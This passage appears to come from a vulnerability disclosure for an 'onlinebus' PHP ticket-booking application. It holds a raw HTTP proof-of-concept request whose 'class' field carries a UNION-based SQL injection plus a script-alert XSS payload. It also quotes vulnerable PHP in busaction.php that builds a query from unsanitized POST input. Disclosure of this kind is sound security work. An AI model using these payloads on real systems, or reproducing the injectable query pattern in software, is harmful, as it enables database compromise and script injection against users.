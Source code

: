 Parameter controllable

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/8fd359c4-0d28-4eee-bb49-3192d250810d)

POC:
```
POST /onlinebus/book_action.php HTTP/1.1
Host: 192.168.253.1
Content-Length: 167
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://onlinebus
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.253.1onlinebus/book.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=jmetab2u149tgvq0m6nh6mbeh9
Connection: close

source=Khandeshwar&dest=Kharghar&class=' UNION ALL SELECT NULL,NULL,NULL,NULL,"1","<script>alert(1)</script>" ORDER BY price ASC-- -&type=Single&number=1&login_submit=
```

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/a5d348ab-2218-4c10-8369-eb635e58dac7)


# 4. busaction.php sql injection

in bookbus.php can booking bus ticket

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/225f2f95-785b-427d-8a12-6f0d1e3200a6)

post data to busaction.php

but sql injection vulnerability exists in busaction.php

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/ebd9f5b1-09e4-4eb9-b4aa-41d139ad9256)

```
$source = $_POST['source'];
$dest = $_POST['dest'];

$no = $_POST['number'];
...

$sql_price="SELECT * FROM `pricebus` WHERE `source` LIKE '$source' AND `dest` LIKE '$dest'";

```
